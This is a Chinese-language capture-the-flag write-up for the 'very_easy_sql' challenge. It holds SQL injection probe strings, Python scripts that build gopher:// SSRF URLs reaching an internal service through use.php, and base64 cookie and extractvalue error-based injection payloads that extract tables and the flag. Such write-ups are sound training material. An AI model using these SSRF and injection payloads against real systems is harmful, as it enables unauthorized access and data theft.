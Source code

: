 # WEB-攻防世界very_easy_sql
- 关键词 sql注入、ssrf漏洞攻击
## 1.题目描述
首先进去就看到一个登录页
![3fd6c630a568ba7d433a346b35cb8c37.png](../_resources/3fd6c630a568ba7d433a346b35cb8c37.png)
尝试了常见的sql注入，发现没有可以注入的端点
附 常见sql探测
```shell
#判断如下闭合方式是否会报错，会报错则肯定存在注入
=test'                         
=test"                         
#若不报错则判断是否存在布尔盲注，如果页面会有不同的显示在可能存在漏洞
=test' and -1=-1 or '
=test' and -1=-2 or '  
         
=test" and -1=-1 or "
=test" and -1=-2 or "
```

页面上的提示you are not an inner user, so we can not let you have identify~很奇怪（后来才知道这种提示是在暗示有ssrf的漏洞了）。
毫无思路，查看源码（划掉，wp）。源码里发现注释里写了use.php
![f9628807f231abe4bfe35bc36e173bb3.png](../_resources/f9628807f231abe4bfe35bc36e173bb3.png)
尝试直接访问use.php，得到如下页面
![75007da7cb98f85034a1e27fa2293e3d.png](../_resources/75007da7cb98f85034a1e27fa2293e3d.png)
这时候有经验的师傅其实更加可以确定是ssrf漏洞了
但我没经验，所以只能看wp了
## ssrf详解
### 什么是ssrf
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
我理解的是相当于内网穿透，你获取到其中一个内网主机，可以用这个内网主机作为服务器向其他的内网机器发起攻击。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
### ssrf的利用
- 分享，通过URL地址分享网页内容，通过URL获取目标页标签等内容
- 转码服务，适应硬件设备的大小；
- 图片的加载与下载
- 图片，文章的收藏；
### 产生SSRF漏洞的函数
- `file_get_contents`
- `fsockopen()`
### ssrf漏洞利用
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2. 攻击运行在内网或本地的应用程序（比如溢出）;
3. 对内网web应用进行指纹识别，通过访问默认文件实现;
4. 攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;
5. 利用file协议读取本地文件等。.
6. 各个协议调用探针：http,file,dict,ftp,gopher等

本题目就是运用第六种，gopher协议。
### gopher协议
```python
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
//按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)
```

用post把这串url发送到http://61.147.171.105:49851/use.php?url=去。
可以看到返回了一个setcockie
![ebe368198641327553581542ed3cdf52.png](../_resources/ebe368198641327553581542ed3cdf52.png)
其中的YWRtaW4%3D经过url解码和base64解码之后，结果为admin
尝试cookie注入

## 解题思路
编写脚本
```python
import urllib.parse
import base64
import requests

host = "127.0.0.1:80"
payload = "admin'"
base64_payload = str(base64.b64encode(payload.encode("utf-8")), "utf-8")
cookie="this_is_your_cookie=" + base64_payload

test =\
"""GET /index.php HTTP/1.1
Host: {}
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie:{}

""".format(host,cookie)

tmp = urllib.parse.quote(test) 
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new) 
gopher = "gopher://"+host+"/_"+result

print(gopher)


url = 'http://61.147.171.105:49851/use.php?url=' + gopher
res = requests.get(url)
print(res.text)
```

![709a03d2f84b25d87ff5133046451760.png](../_resources/709a03d2f84b25d87ff5133046451760.png)

经过多次尝试发现注入点为`admin') #` ，即可以尝试报错注入

## 注入步骤
1. 查数据库，payload为 `admin') and extractvalue(1, concat(0x7e, (select database()),0x7e)) #` 得到结果为
![82f32883e9f806f1f74bc0a1b18b46b2.png](../_resources/82f32883e9f806f1f74bc0a1b18b46b2.png)
2. 查表，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security'),0x7e)) #` 结果为：
![0395781c0b398cbeedfac91d461d9289.png](../_resources/0395781c0b398cbeedfac91d461d9289.png)
3. 因为上一步得到了flag表，因此查flag表中的字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag'),0x7e)) #` 结果为：![153e9ebb795932f2da08db0b1ab32840.png](../_resources/153e9ebb795932f2da08db0b1ab32840.png)
4. 查内容，由于只有flag一个字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT flag from flag),0x7e)) #` ，结果为![a15fc33cb5e87f15dbc6abb2e9f4c593.png](../_resources/a15fc33cb5e87f15dbc6abb2e9f4c593.png)
5. 此时出现了另一个问题，报错的回显最大位数为31位，此时我们只获得前了31位（数一下就行），需要用substr函数进行分割读取后面的位数：`admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),32),0x7e)) #` （意思是从第32位开始截取）结果为：![868925aa8842fa2aa4676c1ed82b2219.png](../_resources/868925aa8842fa2aa4676c1ed82b2219.png)
6. 将两次的结果合并即可
`cyberpeace{812b25eedd2520a4beeef2bca1ce7832}`